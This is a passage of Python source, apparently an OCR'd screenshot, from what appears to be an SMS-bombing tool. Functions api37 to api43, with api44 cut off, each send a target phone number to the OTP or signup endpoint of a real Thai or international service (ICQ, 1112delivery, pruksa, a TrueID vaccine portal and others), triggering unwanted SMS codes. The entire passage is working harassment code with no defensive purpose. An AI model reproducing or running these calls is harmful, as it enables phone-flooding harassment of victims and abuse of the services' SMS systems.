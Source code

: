     post("https://nocnoc.com/authentication-service/user/OTP?b-uid=1.0.684",headers=header,json={"lang":"th","userType":"BUYER","locale":"th","orgIdfier":"scg","phone":phone,"type":"signup","otpTemplate":"buyer_signup_otp_message","userParams":{"buyerName":"ฟงฟง ฟงฟว"}})

    

def api37(phone):

    post("https://u.icq.net/api/v65/rapi/auth/sendCode", json={"reqId":"39816-1633012470","params":{"phone": phone,"language":"en-US","route":"sms","devId":"ic1rtwz1s1Hj1O0r","application":"icq"}})

    

def api38(phone):

    post("https://api.1112delivery.com/api/v1/otp/create", data={'phonenumber': phone,'language': "th"})

    

def api39(phone):

    post("https://gccircularlivingshop.com/sms/sendOtp", json={"grant_type":"otp","username": phone,"password":"","client":"ecommerce"},headers={})

    

def api40(phone):

    headers={

        "organizationcode": "lifestyle",

        "content-type": "application/json"

        }

    json = {"operationName":"sendOtp","variables":{"input":{"mobileNumber": phone,"phoneCode":"THA-66"}},"query":"mutation sendOtp($input: SendOTPInput!) {\n  sendOTPRegister(input: $input) {\n    token\n    otpReference\n    expirationOn\n    __typename\n  }\n}\n"}

    post("https://graph.firster.com/graphql",headers=headers,json=json)

    

def api41(phone):

    post("https://m.riches666.com/api/register-otp", data={"brands_id":"60a6563a232a600012521982","agent_register":"60a76a7f233d2900110070e0","tel":phone})

    

def api42(phone):

    post("https://www.pruksa.com/member/member_otp/re_create",headers=header,data=f"required=otp&mobile={phone}")

    

def api43(phone):

    post("https://vaccine.trueid.net/vacc-verify/api/getotp",headers=header,json={"msisdn":phone,"function":"enroll"})

    

def api44(phone):
